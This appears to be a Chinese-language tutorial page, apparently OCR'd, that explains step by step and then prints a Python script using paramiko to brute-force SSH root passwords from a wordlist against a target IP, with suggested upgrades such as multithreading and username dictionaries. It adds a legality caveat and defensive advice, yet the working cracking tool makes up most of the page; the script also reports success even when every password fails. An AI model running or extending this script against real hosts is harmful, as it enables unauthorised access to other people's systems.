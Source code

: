 ## **核心步骤解析**

1. **导入库**：
   - `paramiko`: 一个用于处理SSH连接的Python库。
   - `time`: 用于控制尝试间隔，避免过快导致IP封禁。
2. **`ssh_crack`函数**：
   - **目标**：对指定主机的SSH服务进行密码爆破，返回成功的密码。
   - **参数**：`targethost` → 目标主机的IP地址。
3. **读取密码文件**：
   - `pwds.txt` 存储了可能的密码，每行一个。
   - `file.readlines()` 读取所有行，存入 `pw_list`。
4. **逐个尝试密码**：
   - `paramiko.Transport` 建立SSH连接，端口为22。
   - `transport.connect` 尝试以用户名 `root` 和读取的密码登录。
5. **异常处理**：
   - 如果登录失败，抛出异常，程序跳过继续下一次尝试。
   - `time.sleep(1)` 添加1秒延迟，减少暴力破解的速度，降低被检测封禁的风险。
6. **成功处理**：
   - 如果成功连接，跳出循环，返回正确密码。
   - 最终打印成功的密码。

------

## **改进计划**

1. **安全性与合法性**：暴力破解未经授权的系统是非法的，实际测试应在受控环境下进行。
2. **超时处理**：可以设置超时时间，避免长时间卡住。
3. **多线程优化**：用多线程提高破解速度。
4. **用户名字典**：支持用户名字典，而不只是固定用户名 `root`。

------

## **总结**

代码的核心是利用 `paramiko` 尝试逐个密码连接SSH，成功后返回密码。但在现实场景中，更安全的做法是强化密码策略、禁用密码登录改用公私钥认证，并监控异常登录尝试。了解爆破原理有助于更好地防御和加固系统安全。

```python
\#SSH爆破

import paramiko

import time

\# 爆破SSH，建议使用证书进行登录

def ssh_crack(targethost):

  with open('D:\Softwares\PyCharm2022\MyProjects\AFinal\opt\dict\pwds.txt') as file:

​    pw_list = file.readlines()

  for password in pw_list:

​    try:

​      transport = paramiko.Transport((targethost, 22))

​      transport.connect(username='root', password=password.strip())

​      \# print(f"SSH破解成功，密码为：{password.strip()}")

​      break

​    except:

​      pass

​    time.sleep(1)

  return password.strip()

if __name__ == '__main__':

  targethost = '目标的IP地址'

  password = ssh_crack(targethost)

  print(f"SSH破解成功，密码为：{password}")
```

